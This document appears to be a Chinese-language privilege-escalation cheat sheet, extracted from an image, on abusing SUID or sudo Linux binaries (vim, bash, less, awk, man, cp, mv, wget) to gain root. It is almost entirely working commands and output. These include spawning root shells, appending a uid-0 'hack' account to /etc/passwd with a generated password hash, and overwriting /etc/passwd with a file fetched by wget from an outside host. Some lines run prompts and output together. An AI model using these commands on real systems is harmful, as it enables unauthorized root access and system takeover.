 vi/vim

Vim的主要用途是用作文本编辑器。但是，如果以SUID运行，它将继承root用户的权限，因此可以读取系统上的所有文件。
打开vim,按下ESC
:set shell=/bin/sh:shell
或者
sudo vim -c ‘!sh’

bash

以下命令将以root身份打开一个bash shell。
bash -pbash-3.2# iduid=1002(service) gid=1002(service) euid=0(root) groups=1002(service)

less

程序Less也可以执行提权后的shell。同样的方法也适用于其他许多命令。
less /etc/passwd!/bin/sh

more

more /home/pelle/myfile!/bin/bash

cp

覆盖 /etc/shadow 或 /etc/passwd
Default
[zabbix@localhost ~]$ cat /etc/passwd >passwd[zabbix@localhost ~]$ openssl passwd -1 -salt hack hack123$1$hack$WTn0dk2QjNeKfl.DHOUue0[zabbix@localhost ~]$ echo 'hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash' >> passwd[zabbix@localhost ~]$ cp passwd /etc/passwd[zabbix@localhost ~]$ su - hackPassword:[root@361way ~]# iduid=0(hack) gid=0(root) groups=0(root)[root@361way ~]# cat /etc/passwd|tail -1hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash

mv

覆盖 /etc/shadow 或 /etc/passwd
Default
[zabbix@localhost ~]$ cat /etc/passwd >passwd[zabbix@localhost ~]$ openssl passwd -1 -salt hack hack123$1$hack$WTn0dk2QjNeKfl.DHOUue0[zabbix@localhost ~]$ echo 'hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash' >> passwd[zabbix@localhost ~]$ mv passwd /etc/passwd[zabbix@localhost ~]$ su - hackPassword:[root@361way ~]# iduid=0(hack) gid=0(root) groups=0(root)[root@361way ~]# cat /etc/passwd|tail -1hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash

nano
Default
nano  /etc/passwd

awk
Default
awk ‘BEGIN {system(“/bin/sh”)}’

man
Default
man passwd!/bin/bash

wget
Default
wget http://192.168.56.1:8080/passwd -O /etc/passwd
